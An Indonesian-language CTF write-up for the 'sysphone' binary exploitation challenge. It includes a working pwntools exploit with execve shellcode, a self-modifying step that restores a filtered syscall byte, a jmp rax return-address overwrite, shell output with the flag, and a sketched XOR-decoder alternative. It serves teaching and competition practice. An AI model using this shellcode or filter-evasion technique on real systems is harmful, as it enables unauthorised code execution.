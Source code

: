 # Penjelasan kode panitia

```py
from pwn import *

context.arch = "amd64"

# p = process("./chall")
p = remote("ctf.compfest.id", "7003")
```

* Pakai **Pwntools** dan target **amd64**.
* Terkoneksi ke service remote `ctf.compfest.id:7003` (bisa juga lokal dengan `process`).

```py
# https://www.exploit-db.com/exploits/46907
shellcode = bytes.fromhex("4831F65648BF2F62696E2F2F736857545F6A3B584831D2990F05")
```

* Shellcode klasik `execve("/bin//sh")` (varian dari exploit-db 46907).
* Di ujungnya ada **`0F 05`** = instruksi `syscall` (wajib untuk `execve`).

```py
filtered_shellcode = shellcode[:-1] + b"\x00"
```

* Tantangan **mem-filter pasangan byte `0f 05`** saat input dibaca.
* Trik: **ubah byte terakhir `0x05 → 0x00`** saat dikirim, sehingga input **tidak** mengandung `0f 05`.
* Nanti byte `0x05` akan **dipulihkan kembali di memori** (self-modifying).

```py
retoverride = p64(0x000000000040116C)  # Gadget for: jmp rax
```

* Di biner ada gadget **`jmp rax`** (alamat fix karena **non-PIE**).
* Setelah fungsi baca (custom `fgets`) selesai, **RAX = alamat buffer**.
* Kita timpa **RET** → eksekusi gadget → **lompat ke buffer** (shellcode).

```py
# sub    rsp,0x110
allocate_rsp = bytes.fromhex("4881EC10010000")

# mov    WORD PTR [rsp+0x107],0x5
restore_shellcode = bytes.fromhex("66C78424070100000500")
```

* Self-modifying step:

  * `sub rsp, 0x110` → **memundurkan RSP** supaya **RSP = awal buffer** (detail di bawah).
  * `mov word [rsp+0x107], 0x0005` → **menulis kembali `0x05`** ke **byte terakhir** shellcode (yang tadi kita set `0x00`). Karena write-nya **word** (2 byte, `05 00`), byte `0x00` “tumpah” ke offset berikutnya (sudah area saved RBP filler—aman).

```py
BUFFER_SIZE = 0x108  # We will treat saved rbp as part of the buffer
NOP_LENGTH = (
    BUFFER_SIZE - len(allocate_rsp) - len(restore_shellcode) - len(filtered_shellcode)
)
payload = (
    b"1000\n"
    + asm("nop") * NOP_LENGTH
    + allocate_rsp
    + restore_shellcode
    + filtered_shellcode
    + retoverride
)
```

* **Buffer** ukuran `0x100`; di stack tepat setelahnya ada **saved RBP (8B)** → total **`0x108`** sudah melewati saved RBP, *tepat sebelum RET*. Di sini mereka **menganggap saved RBP bagian dari “ruang buffer”** untuk pemaketan.
* **Penjajaran (alignment) kunci**: mereka menghitung `NOP_LENGTH` sehingga:

  ```
  [NOP * N][sub rsp,0x110][mov word [rsp+0x107],0x0005][shellcode’]
  ^ awal buffer                                     ^ byte terakhir shellcode'
  ```

  Artinya **byte terakhir `filtered_shellcode`** tepat di offset **`0x107`** dari **awal buffer**.
  Setelah `sub rsp,0x110` → **RSP = awal buffer**, maka `mov word [rsp+0x107], 0x0005` akan menulis **`0x05`** ke byte itu — memulihkan **`… 0F 05`** **di memori**, bukan di input.
* Terakhir append `retoverride` untuk **mengganti RET** dengan alamat gadget `jmp rax`.
* Mereka menaruh `"1000\n"` di *depan payload*—ini “menjawab” prompt `length:` secara *nyampur* (bisa jalan, tapi lebih rapi biasanya kita kirim length dan data di panggilan terpisah).

```py
p.sendline(payload)
p.interactive()
```

* Kirim payload one-shot; masuk mode interaktif.
  Karena shellcode menjalankan `/bin/sh`, kamu bisa ketik `ls`, `cat flag.txt`, dll.

### Kenapa ini bekerja (urutan eksekusi)

1. Program baca **length** dan **data** ke buffer stack `[rbp-0x100]`.
2. Selesai baca, custom `fgets` **return** → **`RAX = ptr buffer`**.
3. Fungsi **`leave; ret`** → `RET` yang telah kita timpa → **alamat gadget `jmp rax`**.
4. Gadget men-**jump** ke alamat di RAX → start buffer → eksekusi:

   * `NOP …` (lewat)
   * `sub rsp, 0x110` → **RSP** jadi **awal buffer**,
   * `mov word [rsp+0x107], 0x5` → pulihkan `… 0F 05` tepat di **byte terakhir** shellcode,
   * lanjut ke **shellcode** (yang sekarang valid) → spawn `/bin/sh` → kamu `cat flag.txt`.

---

# Write-up: “sysphone” (Binary Exploitation)

## Ringkasan

* **Kategori**: pwn / binary exploitation
* **Vuln**: stack buffer overflow, custom read dengan filter byte `0f 05`
* **Mitigasi**: **NX off** (stack executable), **non-PIE** (alamat code fix)
* **Tujuan**: eksekusi shellcode / dapatkan flag
* **Trik inti**: **self-modifying shellcode** (pulihkan `syscall` di memori), atau **2-stage XOR decoder**

## Recon

* Binary 64-bit, **ET\_EXEC (non-PIE)** → alamat gadget fix.
* **NX off** → boleh eksekusi di stack.
* Fungsi rentan: baca **panjang** dari user, lalu **data** ke buffer stack 0x100, kemudian `leave; ret`.
* Custom `fgets` **mem-filter**: kalau input mengandung pasangan byte **`0f 05`** → program exit.
* Setelah `fgets` return, **`RAX` berisi pointer buffer**. Di `.text` ada gadget **`jmp rax`** di **`0x40116c`** (dan opsi lain `0x4011ae`).

## Strategi eksploit

1. **Overflow** hingga **RET** (offset `0x100 + 8 = 0x108`), isi **RET = 0x40116c** (`jmp rax`).

2. **Shellcode** harus **tanpa** pasangan `0f 05` di **INPUT**:

   * **Jalur A (intended / panitia)**: **self-modifying**

     * kirim shellcode `execve("/bin//sh")` tapi **ubah byte terakhir `0x05→0x00`**,
     * jalankan instruksi yang menulis kembali `0x05` **di memori** tepat pada lokasi byte terakhir shellcode,
     * lalu shellcode utuh berjalan.
   * **Jalur B (alternatif)**: **2-stage XOR**

     * stage-1 (tanpa syscall) meng-XOR stage-2 di memori, lalu lompat ke sana.

3. **Layout** (jalur A):

   ```
   [ NOP * N ]
   [ sub rsp, 0x110 ]                    ; RSP -> awal buffer
   [ mov word [rsp+0x107], 0x0005 ]      ; pulihkan byte terakhir syscall
   [ shellcode' (byte terakhir = 0x00) ] ; sekarang sudah valid di memori
   [ saved RBP filler (tercakup di N) ]
   [ RET = 0x40116c (jmp rax) ]
   ```

   `N` dihitung supaya **byte terakhir shellcode** tepat berada di **offset 0x107** dari **awal buffer**.

## Eksploit (kode panitia, worked)

```py
from pwn import *
context.arch = "amd64"
p = remote("ctf.compfest.id", "7003")

shellcode = bytes.fromhex("4831F65648BF2F62696E2F2F736857545F6A3B584831D2990F05")
filtered = shellcode[:-1] + b"\x00"             # hapus pasangan 0f 05 di input

jmp_rax = p64(0x40116C)                          # gadget: jmp rax (non-PIE)
alloc   = bytes.fromhex("4881EC10010000")        # sub rsp,0x110
restore = bytes.fromhex("66C78424070100000500")  # mov word [rsp+0x107],0x5

BUF = 0x108
NOPLEN = BUF - len(alloc) - len(restore) - len(filtered)

payload = b"1000\n" + asm("nop")*NOPLEN + alloc + restore + filtered + jmp_rax
p.sendline(payload)
p.interactive()
```

## Output

```
js overflow me gng
length: data: $ ls
chall
flag.txt
$ cat flag.txt
COMPFEST17{5H3lLc0d1n9_15_480U7_cR3471V17Y_29d3591b4c}
```

## Catatan & jebakan

* **Filter input** hanya saat **membaca** — aman jika `syscall` dibentuk **setelahnya** (di memori).
* Teknik self-modifying **sensitif offset**: `sub rsp,0x110` dan `[rsp+0x107]` harus pas.
* IO service biasanya minta **`length:` lalu `data:`**; kode panitia menyisipkan `"1000\n"` di payload (kerapihannya bisa ditingkatkan dengan `sendlineafter(...)` + `sendafter(...)`).
* Alternatif **paling robust**: 2-stage XOR decoder (tidak perlu mikir offset tumpul).

## Alternatif (2-stage XOR, ide singkat)

* **Stage-1** (tidak mengandung `0f 05`):
  `call $+5; pop rsi; add rsi,<offset>; mov ecx,L; mov al,key;` lalu loop `xor [rsi],al;` → `jmp rsi`.
* **Stage-2** (ter-XOR): syscall `write("OK\n")`, `open("/flag")`→`read`→`write`.
* Overflow sama: `[stage1+enc_stage2 (<=0x100)] [saved_rbp] [RET=jmp rax]`.

